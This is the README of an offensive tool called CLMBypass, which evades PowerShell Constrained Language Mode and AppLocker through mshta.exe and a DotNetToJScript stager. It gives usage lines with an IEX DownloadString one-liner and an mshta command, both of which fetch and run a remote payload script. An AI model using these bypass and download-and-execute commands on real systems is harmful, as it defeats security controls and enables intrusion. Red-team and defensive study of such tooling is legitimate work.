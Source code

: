 # CLMBypass

Bypass Constrained Language Mode in PowerShell, based off of [SecJuice's](https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/) article. Also comes with a stager in case AppLocker is being used, used [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) and [the mshta.exe AWL bypass](https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-mshta-exe/).

#### key
- **[A]** denotes applocker bypass for 1809
- **[C]** denots Constrained Language Mode bypass for 1809

<hr>

### contents
- CLMBypass.hta **[AC]**
  - The WScript.Shell creates a new runspace
  - `payload.ps1` is downloaded and executed in FullLanguage mode
  - **Usage:** mshta.exe http://localhost/CLMBypass.hta`



- CLMBypass.js **[AC]**
  - Realized this is redundant... the hta execution already creates another runspace with FullLanguage mode. Leaving it here just in case.
  - **Usage:** On Line 131 you can add something like `o.Main("IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')");`
  - when the page is loaded, this will execute. If you use DotNetToJScript on your own, the functions and classes *must be public* and the class must have the `[ComVisible(true)]` tag (see Program.cs for an example).



- CLMBypass.exe **[C]**
  - Compiled as PE32 .NET Framework 4.0
  - **Usage:** `.\CLMBypass.exe "IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')"`



- Program.cs
  - C# source code for CLMBypass.dll, a little outdated for the PE



- payload.ps1
  - payload to be run in FullLanguage mode

